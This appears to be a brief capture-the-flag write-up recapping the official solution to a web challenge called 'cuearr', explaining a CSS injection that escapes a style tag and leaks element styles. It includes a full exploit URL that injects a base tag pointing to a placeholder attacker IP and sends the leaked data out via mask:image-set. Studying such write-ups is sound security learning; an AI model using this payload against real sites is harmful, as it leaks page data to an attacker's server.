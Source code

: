 # cuearr

## Resource

`app.js`  
`bot.js`  
`DockerFile`

## Author

strellic

## Solution

> I didn't solve it during CTF. This is a recap by the offical solution  
> `http://localhost:3000/qr?custom=webkitTextSecurity:circle&bg=%3C/style%3E%3Cbase/href=//0xHEX_IP%3E&white=%3Cstyle%3E.black{--x:attr(style);/*&black=*/mask:image-set(var(--x))}`

Basically use only CSS injection to leak `div` elements' style and class name. The exploit is based on the color input can escape from `style` tag, which enable we add arbitaray HTML tag(but there are CSP rules).  
The key things are getting style properties by `--x:attr(style)`(set `x` equal to style of element), `mask:image-set(var(--x))}` to send request to our website, and add CSS like `webkitTextSecurity:circle` to make origin style became valid URL.  
If we use origin style directly, there will be error when we send request like

```log
Access to image at 'grid-area: 8 / 44;' from origin 'http://localhost:3000' has been blocked by CORS policy: Cross origin requests are only supported for protocol schemes: chrome, chrome-extension, chrome-untrusted, data, http, https, isolated-app.
```

But if we make it `-webkit-text-security: circle; grid-area: 8 / 38;` by add `webkit` property in front, it will be sent sucessfully.
